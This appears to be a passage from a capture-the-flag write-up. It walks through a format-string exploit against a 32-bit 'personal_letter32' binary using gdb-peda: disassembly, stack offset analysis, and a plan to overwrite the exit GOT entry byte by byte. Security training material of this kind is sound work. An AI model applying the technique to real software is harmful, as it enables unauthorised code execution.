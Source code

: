 ```assembly
   0x08048bca <+195>:	sub    esp,0xc
   0x08048bcd <+198>:	push   0x8048d3c
   0x08048bd2 <+203>:	call   0x80485b0 <puts@plt>
   0x08048bd7 <+208>:	add    esp,0x10
   0x08048bda <+211>:	sub    esp,0xc
   0x08048bdd <+214>:	push   0x0
   0x08048bdf <+216>:	call   0x80485c0 <exit@plt>

```
I see this executable call <exit@plt> at the end of the main. We will need to modify exit Global Offset Table(GOT) entry. 
</br>So, I breack my printf and run. 
```sh
gdb-peda$ b*printf
Breakpoint 1 at 0x8048540
gdb-peda$ r
Starting program: /personal_letter32 
Welcome to the personal letter program!
Give us your name, and we will generate a letter just for you!
Enter Name (100 Chars max): 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
And now, I will analyse the stack offsets :
```sh
gdb-peda$ telescope 30
0000| 0xffffd17c --> 0x8048ae2 (<printCard+794>:	add    esp,0x10)
0004| 0xffffd180 --> 0x804b980 ('_' <repeats 40 times>, "\n|", ' ' <repeats 38 times>, "|\n|", ' ' <repeats 38 times>, "|\n")
0008| 0xffffd184 --> 0xffffd1e8 ('A' <repeats 39 times>)
0012| 0xffffd188 --> 0x1c 
0016| 0xffffd18c --> 0xf7e7e15d (<setresgid+61>:	cmp    eax,0xfffff000)
0020| 0xffffd190 --> 0xf7fe4f39 (add    edi,0x180c7)
0024| 0xffffd194 --> 0x0 
0028| 0xffffd198 --> 0x0 
0032| 0xffffd19c --> 0x11 
0036| 0xffffd1a0 --> 0x27 ("'")
0040| 0xffffd1a4 --> 0x804b980 ('_' <repeats 40 times>, "\n|", ' ' <repeats 38 times>, "|\n|", ' ' <repeats 38 times>, "|\n")
0044| 0xffffd1a8 --> 0x804bab0 ("|  Dear ", 'A' <repeats 39 times>, ",|\n")
0048| 0xffffd1ac --> 0x804bb40 ("|  ", '_' <repeats 34 times>, "  |\n|  ", '_' <repeats 34 times>, "  |\n|  ", '_' <repeats 34 times>, "  |\n|  ", '_' <repeats 34 times>, "  |\n|  ", '_' <repeats 33 times>...)
0052| 0xffffd1b0 --> 0xffffd1e8 ('A' <repeats 39 times>)
0056| 0xffffd1b4 --> 0x0 
0060| 0xffffd1b8 --> 0xffffd258 --> 0x0 
0064| 0xffffd1bc --> 0x8048bc7 (<main+192>:	add    esp,0x10)
0068| 0xffffd1c0 --> 0xffffd1e8 ('A' <repeats 39 times>)
0072| 0xffffd1c4 --> 0x64 ('d')
0076| 0xffffd1c8 --> 0xf7f945c0 --> 0xfbad2288 
0080| 0xffffd1cc --> 0x8048b33 (<main+44>:	mov    DWORD PTR [ebp-0x74],eax)
0084| 0xffffd1d0 --> 0xf7ffda9c --> 0xf7fcf3e0 --> 0xf7ffd940 --> 0x0 
0088| 0xffffd1d4 --> 0x1 
0092| 0xffffd1d8 --> 0xf7fcf420 --> 0x80483d1 ("GLIBC_2.0")
0096| 0xffffd1dc --> 0xffffd304 --> 0xffffd498 ("/personal_letter32")
--More--(25/30)
0100| 0xffffd1e0 --> 0x0 
0104| 0xffffd1e4 --> 0x3e8 
0108| 0xffffd1e8 ('A' <repeats 39 times>)
0112| 0xffffd1ec ('A' <repeats 35 times>)
0116| 0xffffd1f0 ('A' <repeats 31 times>)
```
As you can see, our input’s buffer is starts at offset 104 which is the 26th argument for the printf. We set the 26th and 27th arguments with the first 8 bytes of our payload to write to different BYTEs to the memory instead of writing a single WORD.